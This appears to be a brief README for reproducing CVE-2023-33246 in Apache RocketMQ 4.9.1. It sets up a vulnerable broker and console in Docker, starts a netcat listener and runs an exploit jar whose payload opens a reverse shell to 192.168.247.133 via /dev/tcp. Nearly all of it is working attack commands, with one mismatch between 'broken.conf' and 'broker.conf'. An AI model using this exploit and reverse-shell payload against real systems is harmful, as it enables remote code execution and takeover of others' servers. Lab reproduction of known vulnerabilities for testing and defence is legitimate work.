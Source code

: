 1. docker pull apache/rocketmq:4.9.1
2. docker pull apacherocketmq/rocketmq-console:2.0.0
3. docker run -d --name rmqnamesrv -p 9876:9876 apache/rocketmq:4.9.1 sh mqnamesrv
4. create broken.conf

5.
```
docker run -d -p 10911:10911 -p 10909:10909 -v /home/osboxes/test/conf/broker.conf:/opt/rocketmq/conf/broker.conf --name rmqbroker --link rmqnamesrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -e "MAX_POSSIBLE_HEAP=200000000" apache/rocketmq:4.9.1 sh mqbroker -c /opt/rocketmq/conf/broker.conf
```

6.
```
docker run -dit --name mqconsole -p 8080:8080 -e "JAVA_OPTS=-Drocketmq.config.namesrvAddr=mqsrv:9876 -Drocketmq.config.isVIPChannel=false" apacherocketmq/rocketmq-console:2.0.0
```

7. `https://127.0.0.1:8080`

8. `nc -lnvp 9999`

9.
```
java -jar CVE-2023-33246.jar -ip "127.0.0.1" -cmd "bash -i >& /dev/tcp/192.168.247.133/9999 0>&1"
```
